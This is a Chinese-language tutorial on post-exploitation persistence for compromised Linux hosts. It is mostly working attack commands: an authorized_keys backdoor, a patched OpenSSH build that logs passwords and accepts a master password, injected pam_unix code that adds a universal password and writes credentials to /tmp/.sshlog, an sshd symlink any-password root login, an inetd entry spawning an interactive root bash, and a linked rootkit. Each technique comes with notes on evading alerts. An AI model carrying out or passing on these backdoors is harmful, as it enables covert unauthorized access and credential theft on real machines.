



## 背景
在拿到一台主机（Linux）的普通权限，或最高权限（uid=0），则要开始进行后渗透阶段，如果当Session断掉之后，能够迅速上线该主机，那么就需要维持该Session的权限了
## 计划任务(Crontab)
Linux 中同步计划任务有如下：

- 系统级别的计划任务
   - /etc/crontab
   - /etc/cron.*/
- 用户级别的计划任务
   - /var/spool/corn/*

相对应的语法如下所示（这里以系统级别的计划任务举例）
```shell
minute hour day month day of week user-name command to be executed
```


| **优点** | **缺点** |
| --- | --- |
| 无需编译，配置简单 | 易排查，设备上容易产生告警 |

## Authorized key 持久化
攻击者在本地生成公私钥对
```bash
# 输入以下命令会在~/.ssh/目录下创建两个文件，分别是id_rsa,id_rsa.pub
ssh-keygen -b 4096 -t rsa

```
在受害机已经获取权限的用户目录下执行
```bash
vi ~/.ssh/authorized_keys
# 将刚刚生成的id_rsa.pub内容粘贴到authorized_keys文件中，如果该文件原来存在内容，就另起一行
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

```


使用自己的私钥登录该系统


如果只有一对公私钥可以不用指定私钥，ssh客户端在登录的时候会寻找/.ssh/id_rsa




| 优点 | 缺点 |
| :-: | :-: |
| 利用简单，攻击行为接近正常登录，一般不会触发告警 | 容易排查 |

## Open SSH 后门
```bash
# 下载openssh-5.9p1.tar.gz openssh-5.9p1.patch.tar.gz
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.patch.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1
patch < sshbd5.9p1.diff
# 修改version.h 为ssh -V 的版本
# vim version.h
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make
# 这里需要注意，编译缺少的环境需要安装，在centos上比Debian简单
make install
```
修改include.h，默认将ssh登录该服务器的密码存储在/tmp/ilog 和 该服务器登录远程服务器的明文密码存储在/tmp/olog，SECRETPW 为


在受害机ssh登录服务器


使用`apaajaboleh`登录


| 优点 | 缺点 |
| :-: | :-: |
| 隐蔽性较强，攻击行为接近正常登录，不易触发其他告警。 | 需要编译环境，缺少GCC或其他依赖包容易出现问题，相对容易排查 |

## SSH PAM 后门
PAM 是 Linux 默认的 SSH 认证登录机制，可以通过修改源码实现万能密码，记录登录密码等功能

```bash
# 首先查看PAM版本，需要有gcc编译环境
rpm -qa | grep pam
tar zxvf Linux-PAM-1.1.8.tar.gz
cd Linux-PAM-1.1.8
# 修改源码
vim modules/pam_unix/pam_unix_auth.c
# 添加代码
if(strcmp("PAM",p)==0){return PAM_SUCCESS;}
if(retval == PAM_SUCCESS){    
  FILE * fp;    
  fp = fopen("/tmp/.sshlog", "a");    
  fprintf(fp, "%s : %s\n", name, p);    
  fclose(fp);
}
# 预编译
./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
# 编译，编译前可能会报错需要安装flex 和 flex-devel
yum install flex flex-devel -y
make
```


预编译


编译


```bash
# 编译完成之后，动态链接库在Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so
# 查找系统原so文件默认存储在/usr/lib64/security/pam_unix.so
find / -name pam_unix.so 
# 备份原pam文件和替换恶意pam文件
mv /usr/lib64/security/pam_unix.so /usr/lib64/security/pam_unix.so.bak
mv /home/aaron/Desktop/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```
使用正常密码登录，可以在/tmp/.sshlog文件找到登录密码，使用我们留的密码（`PAM`）登录也可以


| 优点 | 缺点 |
| :-: | :-: |
| 攻击行为接近正常登录，不会触发其他告警 | 容易排查，需要编译环境  |

## SSH 软连接 后门
```bash
 # 通过软连接建立一个ssh后门
 ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345
```
原理：

1. Linux软连接ssh后门，通过PAM认证方式登录
2. 将sshd文件软连接名称设置为su ,实质上PAM认证是通过软连接的文件名(如:/usr/local/su)在/etc/pam.d/目录下寻找对应的PAM配置文件(如:/etc/pam.d/su)
3. 任意密码登陆的核心是auth sufficient pam_rootok.so,只要PAM配置文件中包含此配置即可 SSH任意密码登陆


建立软连接到/usr/local/su 文件，也可以在其他目录，su文件名字不能变，变了就无法登录。当然可以通过其他设置，更改su名字也是可以的。然后启动，并指定监听12345端口，登录的时候密码随意即可，登录如下：
使用root/任意密码即可登录成功


| 优点 | 缺点 |
| :-: | :-: |
| 攻击行为接近正常登录，不会触发其他告警 | 容易被排查 |

## Vim 后门
修改/etc/vimrc  或者/etc/.vimrc，每次启动vim 执行恶意脚本，vim 支持python，构建python 反弹shell
```bash
vim /etc/vimrc
```


| **优点** | **缺点** |
| :-: | :-: |
| 利用简单 | 持久化效果一般，易暴露 |

## alias 后门
alias 是Linux的命令的别名，存储在~/.bashrc(这里只讨论`bash shell`)中，修改之后再使用命令，当再使用ls时，就会反弹shell
```bash
source ~/.bashrc
```


| **优点** | **缺点** |
| :-: | :-: |
| 利用简单 | 容易被发现，持久化效果一般 |

## inetd 后门
通俗来讲就是一个监听外部网络请求 [就是一个socket] 的系统守护进程,其实有很多比较古老的服务都是基于此守护进程

```shell
# 安装inetd
apt install openbsd-inetd
# 可以直接用service中定义好的服务，只需要把实际的处理程序替换下即可
vim /etc/services
	fido 60179/tcp # fidonet EMSI over TCP
# 配置inetd.conf 并启动inetd
vim /etc/inetd.conf
	fido stream tcp nowait root /bin/bash -i # 当外部请求为fido的服务时，就反弹一个交互式的shell
systemctl restart inetd
nc -vv [host] [port]
```


| 优点 | 缺点 |
| :-: | :-: |
| 利用简单 | 有反连shell告警 |

## mafix 后门
下载地址：[https://github.com/yzimhao/godpock/tree/master/Rootkit](https://github.com/yzimhao/godpock/tree/master/Rootkit)
```shell
tar zxvf mafix.tar.gz
cd mafix.tar.gz
./root 密码 端口
# 攻击机 使用如下命令

# centos 7 还支持ssh1，windows，Debian、Ubuntu ssh客户端不支持ssh1
ssh -1 root@xxx.xxx.xxx.xxx -p port
```


| **优点** | **缺点** |
| :-: | :-: |
| 无需编译，配置简单 | 会替换ls等命令，容易被识破|
|环境依赖较高，在Ubuntu，centos上测试不通过，Ubuntu缺少依赖，centos会死机，在Debian上顺利通过 ||

